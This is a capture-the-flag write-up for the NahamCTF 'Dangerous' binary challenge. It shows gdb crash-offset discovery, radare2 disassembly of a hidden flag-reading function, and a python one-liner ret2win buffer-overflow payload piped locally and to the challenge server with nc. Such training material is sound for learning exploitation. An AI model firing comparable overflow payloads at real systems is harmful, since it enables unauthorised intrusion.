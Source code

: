 ```yaml
---
title: "NahamCTF: Dangerous"
categories:
  - NahamCTF
tags:
  - NahamCTF
---
```


*Hey! Listen!*

*Connect here:*
*nc jh2i.com 50011*

---

For this challenge, we're given a binary called "dangerous". It appears to be stripped, as analyzing it with radare2 doesn't give us many functions to call. 

Running the binary prompts us for our name, then tells us to "Take this":

```
What's your name?
anti
It's dangerous to go alone! Take this, anti

         █   
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
      ███████
      █ ███ █
        ███  
        ███  
        ███  

```

To see if this is vulnerable to a buffer overflow, we'll open it up in gdb, and see if we can get it to segfault:

```
gdb ./dangerous

gdb-peda$ pattern create 700

r <<< $(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%B
A%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0A
sFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6AsLAshAs7AsMAsiAs8AsNAsjAs9AsOAskAsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB
4ABJABfAB5ABKABgAB6')

...
RSP: 0x7fffffffe0d8 ("s6AsLAshAs7AsMA")
...
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x000000000040130d in ?? ()

```

The interesting part of this is the RSP register, as it has part of our pattern in it, so we can use gdb's pattern search feature to find it:

```
pattern search s6AsLAshAs7AsMA
...
RBP+0 found at offset: 489
Registers point to pattern buffer:
[RSP] --> offset 497 - size ~15
...
```

If we swap the pattern out for A's and B's with python, we can very that we have RIP control:

```
gdb-peda$ r <<< $(python -c 'print "A"*497 + "B"*4')
...
RIP: 0x7f0a42424242
...
```

We now know that we have a buffer overflow vulnerability, and that we have control of the execution flow of the program.

We'll start our process of exploitation with radare2:

```
r2 -d dangerous
aaa
afl
```

We can see that we don't have any functions that we can call, so we'll step through the binary and see what it's doing.

```
[0x7ffff7fd5090]> dc
What's your name?
```

Here, we want to CTRL+C so that we can step into the syscall, without it continuing execution after we enter our input:

```
*What's your name?*
[0x7ffff7ed85ce]> ds
anti
[0x7ffff7ed85ce]>
```

Now, we can enter visual mode and step through the binary by hitting s. After stepping three to four times, we can see an interesting portion of the assembly that appears to be opening flag.txt, reading it, and outputting it to the screen:

```
0x00401312      55             push rbp                                                                                                      
0x00401313      4889e5         mov rbp, rsp                                                                                                  
0x00401316      4881ec100200.  sub rsp, 0x210                                                                                                
0x0040131d      be00000000     mov esi, 0                                                                                                    
0x00401322      488d3d160f00.  lea rdi, qword str.._flag.txt    ; 0x40223f ; "./flag.txt"                                                    
0x00401329      b800000000     mov eax, 0                                                                                                    
0x0040132e      e8adfdffff     call sym.imp.open         ;[2]                                                                                
0x00401333      8945fc         mov dword [rbp - 4], eax                                                                                      
0x00401336      488d8df0fdff.  lea rcx, qword [rbp - 0x210]                                                                                  
0x0040133d      8b45fc         mov eax, dword [rbp - 4]                                                                                      
0x00401340      ba00020000     mov edx, 0x200            ; rdx                                                                               
0x00401345      4889ce         mov rsi, rcx                                                                                                  
0x00401348      89c7           mov edi, eax                                                                                                  
0x0040134a      e871fdffff     call sym.imp.read         ;[3]                                                                                
0x0040134f      8b45fc         mov eax, dword [rbp - 4]                                                                                      
0x00401352      89c7           mov edi, eax                                                                                                  
0x00401354      e857fdffff     call sym.imp.close        ;[4]                                                                                
0x00401359      488d85f0fdff.  lea rax, qword [rbp - 0x210]                                                                                  
0x00401360      4889c7         mov rdi, rax                                                                                                  
0x00401363      e828fdffff     call sym.imp.puts         ;[1]                                                                                
0x00401368      90             nop                                                                                                           
0x00401369      c9             leave                                                                                                         
0x0040136a      c3             ret
```

Since there isn't a function that directly calls this, we'll have to jump directly to this memory address. Before we continue, we'll want to create a fake flag in the same directory as the binary, named flag.txt. For this challenge, we'll put "flag{hellothere}" in the flag.txt file.

Now that we have an address to jump to, and we know where the buffer overflows, we can build our exploit:

```
python -c 'print "A"*497 + "\x12\x13\x40\x00\x00\x00\x00\x00"' | ./dangerous

What's your name?
It's dangerous to go alone! Take this, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
         █   
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
      ███████
      █ ███ █
        ███  
        ███  
        ███  

flag{hellothere}
e! Take this, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Nice, we know that it works now, so we'll aim it at the server, and fire it!

```
python -c 'print "A"*497 + "\x12\x13\x40\x00\x00\x00\x00\x00"' | nc jh2i.com 50011
What's your name?
It's dangerous to go alone! Take this, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
         █   
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
      ███████
      █ ███ █
        ███  
        ███  
        ███  

flag{legend_of_zelda_overflow_of_time}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

There's our flag!

**flag{legend_of_zelda_overflow_of_time}**

